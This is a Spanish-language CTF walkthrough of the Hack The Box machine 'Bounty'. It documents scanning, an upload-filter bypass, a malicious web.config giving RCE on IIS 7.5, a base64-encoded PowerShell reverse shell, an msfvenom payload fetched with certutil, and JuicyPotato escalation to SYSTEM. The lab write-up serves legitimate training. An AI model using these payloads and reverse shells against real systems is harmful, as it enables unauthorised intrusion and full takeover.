









---

## 1. Ficha técnica


- **Nombre:** Bounty
- **Dificultad:** Fácil
- **Plataforma:** Hack The Box
- **Autor:** mrb3n8132
- **Técnicas usadas:** Descubrimiento de subdirectorios y recursos web mediante Gobuster, bypass de restricciones en la subida de archivos y ejecución remota de códigos (RCE) a través de un archivo `web.config` en Microsoft IIS (Intrusión), abuso del privilegio **`SeImpersonatePrivilege`** mediante JuicyPotato para la escalada de privilegios.

---

## 2. Reconocimiento

### 2.1. Comprobación de conectividad

Se verificó la conectividad con el objetivo a través de paquetes **ICMP** utilizando la herramienta `ping`.

**Comando y salida:**

```bash
ping -c 4 10.129.36.58
PING 10.129.36.58 (10.129.36.58) 56(84) bytes of data.
64 bytes from 10.129.36.58: icmp_seq=1 ttl=127 time=112 ms
64 bytes from 10.129.36.58: icmp_seq=2 ttl=127 time=114 ms
64 bytes from 10.129.36.58: icmp_seq=3 ttl=127 time=112 ms
64 bytes from 10.129.36.58: icmp_seq=4 ttl=127 time=115 ms

--- 10.129.36.58 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 111.913/113.372/115.436/1.502 ms
```

**Análisis de conclusiones:** 
- La tasa de respuesta fue del 100% (0% de pérdida de paquetes). 
- El valor **TTL** recibido (127) sugiere que el host ejecuta un sistema operativo Windows.

---

### 2.2. Escaneo de puertos TCP

El análisis del rango completo de puertos TCP (65,535) reveló que únicamente se encuentra activo el puerto **80 (HTTP)**.

**Comando ejecutado:**

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.36.58
```

**Resultados obtenidos:**

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-27 13:40 CST
Nmap scan report for 10.129.36.58
Host is up (0.11s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http
```

---

## 3. Enumeración

### 3.1. Enumeración web

Durante la fase de enumeración del servicio HTTP descubierto, se realizó un análisis específico sobre el puerto **80** utilizando scripts de detección de servicios y vulnerabilidades comunes de Nmap.

**Comando ejecutado:**

```bash
nmap -p80 -sCV 10.129.36.58
```

**Resultados obtenidos:** 

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Conclusiones parciales:**

- **Sistema operativo:** Se confirma un entorno **Windows**.
- **Servicio web:** Se identifica **Microsoft IIS 7.5**, el cual cuenta con algunas vulnerabilidades conocidas que pueden ser analizadas en fases posteriores.
- **Título del sitio:** La página web muestra el título **"Bounty"**.
### 3.1.1. Inspección visual de la página web

La aplicación web únicamente muestra una imagen estática y su código fuente HTML no revela información relevante.



### 3.1.2. Fuerza bruta de directorios y archivos web con Gobuster

Para descubrir rutas ocultas, se ejecutó un ataque de fuerza bruta sobre el servidor web utilizando **Gobuster**, buscando extensiones comunes como `php`, `asp`, `aspx` y `txt`.

**Comando ejecutado:**

```bash
gobuster dir --no-error -t 200 -r --url http://10.129.36.58 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,asp,aspx,txt
```

**Resultados y análisis:**

- Se identificó el recurso **`transfer.aspx`** y el subdirectorio **`/uploadedfiles`**.
- La existencia de este subdirectorio sugiere una funcionalidad de subida de archivos; sin embargo, al arrojar un código de estado **403 Forbidden**, se confirma que el acceso directo está restringido o requiere autenticación.



### 3.1.3. Pruebas de subida de archivos

Se confirmó que **`transfer.aspx`** permite la carga de archivos, pero aplica un filtro de validación. Al intentar subir un archivo `.txt`, el servidor lo rechazó; sin embargo, al probar con la extensión `.jpg` (misma que la imagen almacenada en el sitio), la carga fue exitosa.

Para verificar y evadir el control de restricciones, se interceptó la petición utilizando **Burp Suite**, modificando un archivo de prueba con contenido de texto para que llevara la extensión `.jpg`.

**Petición web interceptada y modificada:**



**Resultados obtenidos:** El servidor procesó la petición de forma correcta y permitió la subida, confirmando que la validación se basa únicamente en la extensión del archivo y no en su contenido real.



### 3.1.4. Fuerza bruta de extensiones con Burp Suite Intruder

Se interceptó la petición de subida de archivos y se configuró un ataque de tipo _payload_ en la extensión del archivo, utilizando el diccionario de SecLists (`raft-small-extensions-lowercase.txt`). Para identificar las extensiones permitidas, se configuró la función _Grep - Extract_ con el fin de detectar la cadena _"Invalid File. Please try again"_.



**Análisis de los resultados:** Se identificó que `.config` es una extensión válida. Este hallazgo es crítico en servidores Microsoft IIS, ya que permite sobrescribir la configuración del servidor, facilitando la ejecución de comandos (RCE) y la toma de control del sistema web.

---

## 4. Explotación

### 4.1. Prueba de concepto y confirmación de RCE

Se utilizó el siguiente _payload_ para validar la ejecución remota de comandos (RCE):

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<configuration>  
   <system.webServer>  
      <handlers accessPolicy="Read, Script, Write">  
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />  
      </handlers>  
      <security>  
         <requestFiltering>  
            <fileExtensions>  
               <remove fileExtension=".config" />  
            </fileExtensions>  
            <hiddenSegments>  
               <remove segment="web.config" />  
            </hiddenSegments>  
         </requestFiltering>  
      </security>  
   </system.webServer>  
   <appSettings>  
</appSettings>  
</configuration>  
<!–-  
<% Response.write("-"&"->")  
Response.write("<pre>")  
Set wShell1 = CreateObject("WScript.Shell")  
Set cmd1 = wShell1.Exec("cmd /c whoami")  
output1 = cmd1.StdOut.Readall()  
set cmd1 = nothing: Set wShell1 = nothing  
Response.write(output1)  
Response.write("</pre><!-"&"-") %>  
-–>
```

Se creó un archivo con el nombre `web.config` y se ingresó el contenido anterior. Posteriormente, se subió al servidor y se accedió a él desde la ruta identificada previamente (`/uploadedfiles`), obteniendo la confirmación de la ejecución remota de comandos.



---

### 4.2. Acceso inicial (Intrusión)

Tras confirmar el vector mediante RCE, se procedió a entablar una conexión interactiva a través de una _reverse shell_.

### Metodología de explotación:

**Paso 1: Inicialización del _listener_**

> Se puso en escucha Netcat en el puerto asignado:

```bash
rlwrap nc -nlvp 9001
```

**Paso 2: Modificación y ejecución del payload**

> Se actualizó el archivo `web.config` reemplazando la instrucción `cmd /c whoami` por una versión codificada en Base64 de la _reverse shell_ de PowerShell (para evitar errores de sintaxis con las comillas):

```plaintext
Set cmd1 = wShell1.Exec("cmd /c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMQAwADIAIgAsADkAMAAwADIAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA")
```

**Resultado obtenido:** Tras la ejecución exitosa del payload, se obtuvo acceso interactivo al sistema como usuario **`merlin`**.



---

## 5. Post-explotación

### 5.1. Escalada de privilegios

Al inspeccionar los privilegios asignados al usuario actual (`merlin`), se identificó que el privilegio **`SeImpersonatePrivilege`** se encuentra habilitado, lo cual representa un vector clásico y directo para la escalada de privilegios a través de la herramienta **JuicyPotato**.



### Metodología para escalar privilegios

**Paso 1: Creación del payload malicioso** Para lograr la suplantación de identidad (_token impersonation_) mediante JuicyPotato, se generó un ejecutable con `msfvenom` que funcionará como la _reverse shell_ de privilegios elevados:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.102 LPORT=443 -f exe -o reverse.exe
```

**Paso 2: Compartir los archivos en la red** Se ubicó el binario `JuicyPotato.exe` junto al payload generado (`reverse.exe`) en el mismo directorio del sistema atacante, levantando un servidor HTTP temporal con Python:

```bash
sudo python3 -m http.server 80
```

**Paso 3: Descarga de los archivos en el objetivo** Desde la sesión actual en la máquina víctima, se descargaron ambas herramientas utilizando `certutil`:

```powershell
certutil -urlcache -f http://10.10.16.102/JuicyPotato.exe potato.exe
certutil -urlcache -f http://10.10.16.102/reverse.exe reverse.exe
```

**Paso 4: Configuración del listener y ejecución de JuicyPotato** Previamente a la ejecución, se configuró un nuevo oyente en la máquina atacante utilizando Netcat para capturar la conexión en el puerto configurado:

```bash
rlwrap nc -nlvp 443
```

Posteriormente, se ejecutó el exploit en el objetivo apuntando al binario malicioso:

```powershell
.\potato.exe -l 9043 -p C:\Windows\Temp\privEsc\reverse.exe -t *
```

#### Resultado final:

Tras la ejecución del exploit, se recibió de forma exitosa una nueva conexión interactiva en el listener, obteniendo el control total del sistema como el usuario **`NT AUTHORITY\SYSTEM`**. Finalmente, se procedió a la localización y lectura de las banderas (_flags_) correspondientes para concluir con éxito el reto del CTF.



---
